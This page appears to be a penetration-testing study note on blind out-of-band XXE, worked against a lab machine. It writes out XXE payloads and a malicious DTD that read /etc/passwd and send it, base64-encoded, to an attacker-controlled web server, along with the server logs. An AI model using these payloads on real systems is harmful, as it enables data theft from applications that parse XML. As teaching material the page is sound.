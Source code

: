 ```yaml
---
description: >-
  XXE Blind Out of Band
title:  XXE Blind Out of Band             # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, XXE Blind Out of Band]                     # Change Templates to Writeup
tags: [exploitation, xxe blind out of band, xxe]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:
```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.14.3"> ]>

<Heartbleed>
<Ping>&xxe;</Ping>
</Heartbleed>
```
![Description](/assets/img/Pasted image 20230206005533.png)

In this case we receive a request on our web server:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.62 - - [06/Feb/2023 06:50:04] "GET / HTTP/1.0" 200 -
```
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

```bash
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```bash
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```bash
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://10.10.14.3"> %xxe; ]>
```
![Description](/assets/img/Pasted image 20230206005654.png)

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:
![Description](/assets/img/Pasted image 20230206005910.png)

```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY filename SYSTEM 'http://10.10.14.3/%file;'>">
```

This DTD carries out the following steps:

-   Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file with a wrapper to encode the payload as base64.
-   Defines an XML parameter entity called `param1`, containing a dynamic declaration of another XML parameter entity called `filename`. The `filename` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
-   Uses the `param1` entity, which causes the dynamic declaration of the `filename` entity to be performed.
-   Uses the `filename` entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

```bash
http://10.10.14.3/structure.xml
# Python web server:
python3 -m http.server 80
```

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```bash
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/structure.xml"> %xxe; %param1;]>

<Heartbleed>
<Ping>&filename;</Ping>
</Heartbleed>
```
![Description](/assets/img/Pasted image 20230206013133.png)
Examples:
[[Fulcrum#^]]